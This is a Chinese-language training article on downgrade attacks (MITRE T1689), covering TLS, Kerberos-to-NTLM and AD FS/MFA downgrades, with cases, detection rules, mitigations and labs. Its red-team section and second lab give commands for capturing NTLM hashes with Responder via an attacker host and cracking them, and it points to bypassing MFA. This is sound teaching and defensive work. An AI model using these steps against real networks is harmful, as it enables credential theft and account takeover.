

# 降级攻击 (T1689)

## 一句话通俗理解

> **降级攻击就是强迫系统用更弱的安全协议** -- 明明有大铁锁（TLS 1.3），攻击者强迫你用一把小挂锁（SSL 3.0），然后用他早就准备好的钥匙就能打开。

## 难度等级

- ⭐⭐ 中级（需要一定基础）

需要了解网络协议、认证机制和安全协议版本的基础知识。

## 技术描述

降级攻击（Downgrade Attack，T1689）是MITRE ATT&CK框架中防御削弱战术的一种技术。

> 📚 **打个比方**：就像你家安装了最先进的智能门锁，小偷在门外装干扰器让你只能用最原始的钥匙开锁，而他早就配好了这把钥匙——降级攻击就是攻击者强迫系统使用较弱的安全协议版本（如从TLS 1.3降到SSL 3.0），再利用旧版本的已知漏洞进行攻击。

**通俗解释：**
想象你家安装了最先进的智能门锁（支持指纹、密码、手机App多种方式），小偷在门外装了干扰器，让你只能用最原始的钥匙开锁。然后小偷偷偷配了一把你的钥匙 -- 这就是降级攻击。攻击者不是直接破解最强的安全措施，而是强迫系统使用较弱的版本或协议，再利用较弱版本的漏洞进行攻击。

**技术原理：**
降级攻击的核心原理是利用协议协商过程中的"向下兼容"（backward compatibility）特性。当通信双方支持多个版本的安全协议时，攻击者可以干预协商过程，强制双方使用安全级别最低的共同协议版本：

1. **TLS/SSL降级**：攻击者位于客户端和服务器之间的网络路径上，通过修改ClientHello消息中的"支持的密码套件"列表，删除较安全的TLS 1.3和TLS 1.2选项，仅保留TLS 1.0或SSL 3.0。降级后，攻击者可以利用已知的加密弱点（如BEAST、POODLE攻击）解密通信内容
2. **认证协议降级**：在Windows域环境中，攻击者迫使认证协议从Kerberos降级到NTLM。Kerberos采用票据授权和对称加密，安全性较高；NTLM使用挑战-响应机制，容易受到Pass-the-Hash和中继攻击
3. **AD FS认证降级**：操纵AD FS的认证策略端点或修改WS-Trust协议请求中的认证方法参数，迫使AD FS跳过MFA要求，仅使用用户名和密码认证

**用途与影响：**
攻击者通过降级攻击可以绕过多因素认证（MFA）、解密加密通信、窃取凭据。在企业网络中，降级攻击是最难以检测的攻击方式之一，因为它利用的是协议设计中的"兼容性"问题而非代码漏洞。

## 子技术列表

**该技术没有子技术。**

T1689降级攻击是单一技术，没有定义子技术。在实际攻击中，降级攻击有多种表现形式，包括TLS降级、Kerberos降级、AD FS降级等。

## 攻击流程

### 典型攻击流程

```
定位目标服务 --> 干预协议协商 --> 降级到弱协议 --> 利用弱协议漏洞 --> 绕过安全控制
```



**步骤详解：**

1. **定位目标服务**
   - 通俗描述：找到目标系统上支持哪些安全协议和认证方式
   - 技术细节：扫描目标服务的TLS版本支持情况、探测域控的认证配置
   - 常用工具：Nmap（`-sV --script ssl-enum-ciphers`）、OpenSSL、Nessus

2. **分析协议支持情况**
   - 通俗描述：了解目标服务支持的所有协议版本
   - 技术细节：通过TLS握手探测支持的协议版本和密码套件
   - 常用工具：`nmap --script ssl-enum-ciphers`、`testssl.sh`

3. **干预协议协商过程**
   - 通俗描述：在通信路径上"动手脚"，让双方只能用弱版本协议
   - 技术细节：通过ARP欺骗或中间人攻击干预TLS握手，或修改DNS记录使Kerberos不可用
   - 常用工具：Bettercap、Ettercap、Responder（用于NTLM中继）

4. **利用弱协议漏洞**
   - 通俗描述：使用已知的攻击方法破解降级后的弱协议
   - 技术细节：对降级后的TLS 1.0实施BEAST攻击，或利用NTLM中继窃取凭据
   - 常用工具：Responder、Impacket套件、`tls-scanner`

## 真实案例

### 案例1：AD FS降级攻击绕过MFA（2022年）

- **时间**: 2022年
- **目标**: 使用AD FS进行联合身份验证的组织
- **攻击组织**: 多个APT组织
- **手法**: 攻击者针对Active Directory Federation Services（AD FS）实施降级攻击以绕过多因素认证。通过操纵AD FS的认证策略端点或修改WS-Trust协议请求中的认证方法参数，攻击者迫使AD FS降级到仅使用用户名和密码进行认证，跳过了MFA要求。MFA保护被有效削弱后，攻击者只需拥有用户名和密码（可通过钓鱼或凭据泄露获得）即可完成身份验证，访问受MFA保护的云应用和数据。
- **影响**: 使用AD FS的企业的云端应用和数据门户大开，发生多起数据泄露事件
- **参考链接**: [MITRE ATT&CK - T1689](https://attack.mitre.org/techniques/T1689/)

### 案例2：OAuth设备代码钓鱼绕过MFA（2024-2025年）

- **时间**: 2024-2025年
- **目标**: Microsoft 365用户
- **攻击组织**: TA2723、Storm-2372
- **手法**: 攻击者利用OAuth设备代码认证流程的特性绕过MFA。设备代码流程设计用于无法使用浏览器登录的设备（如智能电视），攻击者利用这一合法功能，诱导用户在钓鱼页面上输入攻击者生成的设备代码。当用户在MFA提示页面上完成MFA验证时，实际上是在授权攻击者控制的设备访问他们的账户。MFA在受害者的设备上成功验证，但令牌被发送给攻击者。这种降级/绕过方式利用了合法协议的"后门"。
- **影响**: 导致大量Microsoft 365账户被入侵，包括政府机构和高管账户
- **参考链接**: [Rescana - OAuth Device Code Phishing (2024-2025)](https://www.rescana.com/post/microsoft-365-under-attack-oauth-device-code-phishing-campaigns-bypass-mfa-and-compromise-accounts)

### 案例3：Kerberos到NTLM的降级攻击

- **时间**: 持续活跃
- **目标**: 使用Active Directory的企业组织
- **攻击组织**: 多个勒索软件团伙
- **手法**: 攻击者通过修改网络配置或DNS记录，使客户端无法联系域控制器上的Kerberos服务（阻断端口88或修改SRV记录），迫使Windows认证自动回退到NTLM。一旦降级成功，攻击者可以通过NTLM中继攻击（使用Responder/Impacket）来窃取凭据或进行Pass-the-Hash攻击。这种降级攻击有效削弱了企业身份验证基础设施的安全级别。
- **影响**: 攻击者能够利用NTLM的弱保护机制进行横向移动和权限提升
- **参考链接**: [MITRE ATT&CK - T1689](https://attack.mitre.org/techniques/T1689/)

### 案例4：恶意攻击者利用BAV2ROPC协议绕过MFA（2025年）

- **时间**: 2025年
- **目标**: Microsoft Entra ID (Azure AD)用户
- **攻击组织**: 多个APT组织
- **手法**: 攻击者利用Entra ID中遗留的BAV2ROPC（Basic Authentication Version 2, Resource Owner Password Credential）协议绕过MFA和条件访问策略。该协议最初设计用于帮助应用过渡到OAuth 2.0，允许通过用户名和密码直接获取令牌而不触发MFA挑战。攻击者获取了有效的凭据后，直接使用BAV2ROPC端点获取访问令牌，完全绕过MFA。研究人员在2025年的3周内检测到超过9,000个利用该协议的尝试。
- **影响**: 管理员账户面临MFA被绕过的风险，可能导致全面入侵
- **参考链接**: [Cybersecurity News - Legacy Protocol Bypass MFA](https://cybersecuritynews.com/hackers-exploiting-legacy-protocols-in-microsoft-entra-id/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **NTLM降级渗透测试**
   使用Responder工具监听网络中的NTLM认证请求，通过阻断Kerberos连接迫使客户端使用NTLM认证，然后进行NTLM中继攻击。

2. **TLS降级测试**
   使用testssl.sh扫描目标服务器支持的TLS版本和密码套件。如果发现支持SSL 3.0或TLS 1.0，尝试使用POODLE或BEAST攻击。

3. **AD FS MFA绕过测试**
   通过修改WS-Trust请求中的认证方法参数，测试AD FS是否允许绕过MFA要求。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| Responder | NTLM认证捕获和中继 | Linux | [GitHub](https://github.com/lgandx/Responder) |
| Impacket | 协议攻击套件 | Linux | [GitHub](https://github.com/SecureAuthCorp/impacket) |
| testssl.sh | TLS协议版本扫描 | Linux | [GitHub](https://github.com/drwetter/testssl.sh) |
| Bettercap | MITM攻击框架 | Linux/macOS | [GitHub](https://github.com/bettercap/bettercap) |
| Nmap | 网络扫描 | 跨平台 | [官网](https://nmap.org/) |

### 注意事项

- 降级攻击通常在网络层面实施，需要与目标在同一网络段或能拦截通信
- 现代操作系统和浏览器已经实施了HSTS和TLS Fallback SCSV等降级保护
- 在合法渗透测试中使用降级攻击前必须获得书面授权
- AD FS降级攻击已在较新版本中被修补

## 蓝队视角

### 检测要点

1. **认证协议异常降级**
   - 日志来源：Windows安全事件日志、域控制器日志
   - 关注字段：认证包类型（Kerberos vs NTLM）、登录进程
   - 异常特征：通常使用Kerberos的客户端突然使用NTLM认证

2. **TLS协议版本异常**
   - 日志来源：网络流量日志、Web服务器日志、TLS协商日志
   - 关注字段：TLS版本、密码套件、客户端指纹
   - 异常特征：来自现代浏览器/客户端的连接使用过时TLS版本

3. **认证方法异常变更**
   - 日志来源：AD FS审计日志、Azure AD登录日志
   - 关注字段：认证方法、MFA状态、客户端应用类型
   - 异常特征：使用过时或不安全的认证协议成功登录

### 监控建议

- 在服务器端禁用对旧版协议的支持（禁用SSL 3.0、TLS 1.0和TLS 1.1）
- 在Active Directory环境中强制使用Kerberos，逐步禁用NTLM
- 实施HSTS（HTTP Strict Transport Security）防止协议降级
- 启用Extended Protection for Authentication (EPA)防止认证中继
- 监控Windows事件ID 4776（NTLM认证）和ID 4768/4769（Kerberos认证）的比例变化

## 检测建议

### 网络层检测

**检测方法：** 分析网络流量中的TLS握手协议版本

**具体规则/命令示例：**
```bash
# 使用tshark检测TLS降级
tshark -r capture.pcap -Y "tls.handshake.version == 0x0301 || tls.handshake.version == 0x0300" -T fields -e ip.src -e ip.dst -e tls.handshake.version
```

**示例（Snort/Suricata规则）：**
```
alert tcp any any -> any 443 (msg:"TLS 1.0 connection from modern client"; flow:to_server,established; content:"|16 03 01|"; depth:3; sid:1000001; rev:1;)
```

### 主机层检测

**检测方法：** 监控认证协议使用情况和事件日志

**Windows事件ID：**
- 事件ID 4768：Kerberos TGT请求
- 事件ID 4769：Kerberos服务票据请求
- 事件ID 4776：域控制器NTLM认证
- 事件ID 4624：登录成功（关注登录包类型）

**Linux日志：**
- 日志文件：`/var/log/auth.log`、`/var/log/secure`
- 关键字段：`sshd`连接的协议版本

**具体命令示例：**
```powershell
# 查看某个用户的NTLM认证事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4776} | Where-Object {$_.Message -like "*username*"}
```

### 应用层检测

**检测方法：** 监控认证协议使用比例的异常变化，重点关注通常使用 Kerberos 的客户端突然回退到 NTLM 的现象；同时监控 AD FS 和 Entra ID 日志中绕过 MFA 的认证请求以及遗留认证协议的使用。

**Sigma规则示例1：NTLM降级检测**
```yaml
title: NTLM Logon from Kerberos-Dominant Workstation
status: experimental
description: Detects NTLM network logon events indicating a possible Kerberos-to-NTLM downgrade attack
logsource:
    category: authentication
    product: windows
detection:
    selection:
        EventID: 4624
        LogonType: 3
        AuthenticationPackageName: 'NTLM'
    filter:
        TargetUserSid|startswith: 'S-1-5-21'
    condition: selection and filter
level: medium
tags:
    - attack.t1689
```

**Sigma规则示例2：Entra ID遗留协议检测**
```yaml
title: Legacy Authentication Protocol Usage in Entra ID
status: experimental
description: Detects successful authentication using legacy protocols that may bypass conditional access and MFA
logsource:
    category: application
    product: azure
detection:
    selection:
        Operation: 'UserLoggedIn'
        Protocol:
            - 'BAV2ROPC'
            - 'RemotePowerShell'
            - 'POP3'
            - 'IMAP4'
        ResultStatus: 'Success'
    condition: selection
level: high
tags:
    - attack.t1689
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 禁用过时协议版本

**具体实施步骤：**
1. 在服务器端禁用SSL 3.0、TLS 1.0和TLS 1.1
2. 在Windows域中配置组策略禁用NTLM或启用NTLM审计
3. 在云计算环境中禁用遗留协议（如BAV2ROPC）

**配置示例：**
```powershell
# Windows注册表禁用TLS 1.0
New-Item 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Protocols\TLS 1.0\Server' -Force
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Protocols\TLS 1.0\Server' -Name 'Enabled' -Value 0 -PropertyType DWORD

# 部署组策略禁止NTLM
# Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options
# Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers - Deny all
```

### 优先级2：重要措施

**措施名称：** 实施HSTS和DNS安全

**具体实施步骤：**
1. 在所有HTTPS站点启用HSTS（`Strict-Transport-Security`头）
2. 使用DNSSEC保护DNS查询不被篡改
3. 实施DNS over HTTPS（DoH）

### 优先级3：建议措施

**措施名称：** 监控和审计协议使用

**具体实施步骤：**
1. 使用SIEM监控认证协议的异常变更
2. 建立基线：了解哪些客户端应该使用Kerberos，哪些使用NTLM
3. 定期审计TLS/SSL配置扫描

### MITRE ATT&CK缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1031 | 网络入侵防御 | 适用 | 在网络层检测协议降级 |
| M1030 | 网络分段 | 部分适用 | 限制攻击者访问网络路径 |
| M1029 | 远程访问配置 | 部分适用 | 配置远程访问禁用旧协议 |
| M1018 | 用户账户管理 | 部分适用 | 限制认证机制的变更 |
| M1028 | 操作系统配置 | 适用 | 配置系统禁用旧版协议 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| Kali Linux | 渗透测试OS | 中级 | [官网](https://www.kali.org/) |
| Windows Server实验室 | AD环境 | 高级 | 使用Hyper-V自建 |
| TryHackMe | 在线CTF | 中级 | [官网](https://tryhackme.com/) |

**所需工具：**
- Kali Linux虚拟机
- Responder工具包
- testssl.sh
- Nmap

**环境搭建：**
```bash
# Kali Linux上安装工具
sudo apt update
sudo apt install -y responder nmap

# 安装testssl.sh
git clone https://github.com/drwetter/testssl.sh.git
```

### 实验1：扫描TLS协议版本支持（初级）

**实验目标：** 学习扫描目标服务器支持的TLS版本

**实验步骤：**
1. 启动Kali Linux虚拟机
2. 使用Nmap扫描目标HTTPS服务器的TLS版本：`nmap -sV --script ssl-enum-ciphers -p 443 target.com`
3. 使用testssl.sh进行更详细的扫描：`./testssl.sh --protocols target.com:443`
4. 查看输出，确认目标是否支持过时的TLS版本
5. 记录支持的协议版本和密码套件

**预期结果：** 了解目标服务器的TLS协议版本支持情况

**学习要点：** TLS协议版本枚举是降级攻击的第一步

### 实验2：使用Responder捕获NTLM认证（中级）

**实验目标：** 模拟NTLM降级攻击，捕获认证请求

**实验步骤：**
1. 在Kali Linux上启动Responder：`sudo responder -I eth0 -w -r -f`
2. 在Windows测试机上尝试访问Responder模拟的SMB共享：`net use \\attacker-ip\share`
3. 观察Responder是否捕获到NTLM哈希
4. 分析捕获到的NTLM挑战-响应过程
5. 尝试使用hashcat破解捕获的NTLM哈希

**预期结果：** Responder成功捕获NTLM认证哈希

**学习要点：** 理解NTLM认证过程和降级攻击的原理

### 实验3：配置TLS安全策略防御降级（高级）

**实验目标：** 学习配置服务器端TLS策略以防止降级攻击

**实验步骤：**
1. 在测试服务器上配置IIS或Apache的TLS策略
2. 禁用SSL 3.0和TLS 1.0/1.1
3. 启用HSTS头
4. 使用testssl.sh重新扫描，确认旧版协议已被禁用
5. 测试旧版客户端（如IE 11）是否无法连接

**预期结果：** 旧版TLS协议被禁用后，降级攻击无法成功

**学习要点：** 掌握防御TLS降级攻击的配置方法

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| TLS | Transport Layer Security | 传输层安全协议，保护网络通信的加密协议 |
| SSL | Secure Sockets Layer | 安全套接层，TLS的前身，已被认为不安全 |
| Kerberos | Kerberos | 微软域环境中的强认证协议，使用票据机制 |
| NTLM | NT LAN Manager | Windows的旧版认证协议，比Kerberos安全性低 |
| HSTS | HTTP Strict Transport Security | 强制浏览器使用HTTPS连接的Web安全策略 |
| POODLE | Padding Oracle On Downgraded Legacy Encryption | 针对SSL 3.0的降级攻击 |
| BEAST | Browser Exploit Against SSL/TLS | 针对TLS 1.0的浏览器攻击 |
| MITM | Man-in-the-Middle | 中间人攻击，拦截通信双方的流量 |
| AD FS | Active Directory Federation Services | Active Directory联合身份验证服务 |
| BAV2ROPC | Basic Auth V2 Resource Owner Password Credentials | Entra ID中的遗留认证协议 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1689 Downgrade Attack](https://attack.mitre.org/techniques/T1689/)

### 安全报告

- [Microsoft - Disabling NTLM Guide](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm)
- [POODLE Attack Explained](https://www.openssl.org/blog/blog/2014/10/15/the-poodle-attack/)
- [HSTS RFC 6797](https://tools.ietf.org/html/rfc6797)
- [Rescana - OAuth Device Code Phishing 2024-2025](https://www.rescana.com/post/microsoft-365-under-attack-oauth-device-code-phishing-campaigns-bypass-mfa-and-compromise-accounts)

### 工具与资源

- [Responder - NTLM认证工具](https://github.com/lgandx/Responder)
- [testssl.sh - TLS测试工具](https://github.com/drwetter/testssl.sh)
- [Impacket - 协议攻击套件](https://github.com/SecureAuthCorp/impacket)

### 学习资料

- [TLS协议降级攻击深度分析](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/system-cryptography-use-fips-compliant-algorithms-for-encryption-hashing-and-signing)
- [NTLM与Kerberos认证对比](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain)
